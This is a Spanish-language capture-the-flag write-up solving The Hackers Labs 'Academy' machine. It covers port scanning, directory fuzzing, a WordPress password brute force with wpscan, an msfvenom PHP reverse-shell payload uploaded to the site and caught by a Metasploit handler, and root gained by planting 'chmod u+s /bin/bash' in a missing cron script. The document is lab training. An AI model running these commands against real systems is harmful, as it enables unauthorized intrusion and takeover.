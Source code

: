 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TheHackerLabs
  - Easy
  - Linux
  - WordPress
  - FileUpload
  - PrivilegeEscalation
  - CRON
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#WordPress|WordPress]]
	- [[#Explotación#Escalada de privilegios|Escalada de privilegios]]
	- [[#Explotación#Tareas CRON|Tareas CRON]]

---
# Resolviendo la máquina Academy

>En esta publicación, comparto cómo resolví la máquina **Academy** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/1).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 192.168.1.136`

![[Pasted image 20250720182702.png]]

*TTL=64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.136 -oG allPorts`

![[Pasted image 20250720182819.png]]

`nmap -p22,80 -sCV 192.168.1.136 -oN targeted`

![[Pasted image 20250720182845.png]]
### HTTP

`http://192.168.1.136/`

![[Pasted image 20250720183319.png]]
#### Fuzzing Web

`gobuster dir -u http://192.168.1.136/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![[Pasted image 20250720183420.png]]

`http://192.168.1.136/wordpress/`

![[Pasted image 20250720183511.png]]

Se observa que no carga correctamente.

![[Pasted image 20250720183602.png]]

Se añade el dominio al archivo `/etc/hosts`

`echo "192.168.1.136 academy.thl" >> /etc/hosts`

![[Pasted image 20250720183822.png]]

Se vuelve a realizar *Fuzzing Web*.

`gobuster dir -u http://192.168.1.136/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![[Pasted image 20250720184105.png]]

Se accede al directorio: `http://192.168.1.136/wordpress/wp-admin`.

![[Pasted image 20250720184235.png]]

---
## Explotación
### WordPress

`wpscan --url http://192.168.1.136/wordpress/ --enumerate u,vp`

![[Pasted image 20250720184508.png]]
![[Pasted image 20250720184538.png]]

Se encuentra el usuario *dylan*.

`wpscan --url http://192.168.1.136/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames dylan`

![[Pasted image 20250720184852.png]]
![[Pasted image 20250720184913.png]]

Se introduce la contraseña en el panel de control de *WordPress*.

![[Pasted image 20250720185010.png]]

Se genera un *payload malicioso*.

`msfvenom -p php/reverse_php LHOST=192.168.1.127 LPORT=1234 -f raw > pwned.php`

Se sube el archivo generado anteriormente, mediante *Bit File Manager*.

![[Pasted image 20250720190008.png]]

Nos ponemos en escucha en el puerto 1234.

`nc -nlvp 1234`

`http://192.168.1.136/wordpress/pwned.php`

Se crea un script automático para ejecutar el *multi/handler*.

`vin handler.rc`

```
use multi/handler
set LHOST 192.168.1.127
set LPORT 1234
run
```

`msfconsole -r handler.rc`

Cuando se recibe la conexión en el puerto de 1234, se realiza una *reverse shell* para establecer una conexión estable.

![[Pasted image 20250720190823.png]]

![[Pasted image 20250720190846.png]]

`background`

`sessions -u 1`

`sessions 2`

`sysinfo`

![[Pasted image 20250720191034.png]]

`getuid`

![[Pasted image 20250720191052.png]]
### Escalada de privilegios

`cd /opt`

`cat backup.py`

![[Pasted image 20250720192608.png]]

Se encuentra la contraseña del usuario *dylan*, con el cual se accedió previamente a **WordPress**, aunque dicho usuario no existe como cuenta local en el sistema.
### Tareas CRON

Se descarga la herramienta [pspy64](https://github.com/DominicBreuker/pspy). 

Para poder ver las tareas **CRON** que se ejecutan en la máquina víctima.

Se descarga en nuestra máquina.

Se mueve el archivo descargado al directorio actual.

`mv /home/manumore/Descargas/pspy64 .`

`python3 -m http.server 80`

Se descarga en la máquina victima y se dan permisos.

`wget 192.168.1.127/pspy64`

`chmod 777 pspy64`

Se ejecuta el archivo descargado.

`./pspy64`

Se observa una tarea **CRON**, pero que el archivo que llama no existe en la ruta que indica.

![[Pasted image 20250720200322.png]]

Al tener permisos de escritura sobre `/opt`, se puede abusar de la tarea **CRON** que busca ejecutar un script inexistente (`backup.sh`).

![[Pasted image 20250720200607.png]]

Se crea el archivo: `backup.sh`.

`echo 'chmod u+s /bin/bash' >> backup.sh`

Se da permisos.

`chmod +x backup.sh`

Se espera a que se ejecuta la tarea **CRON** se ejecute automáticamente.

`bash -p`

![[Pasted image 20250720201622.png]]

---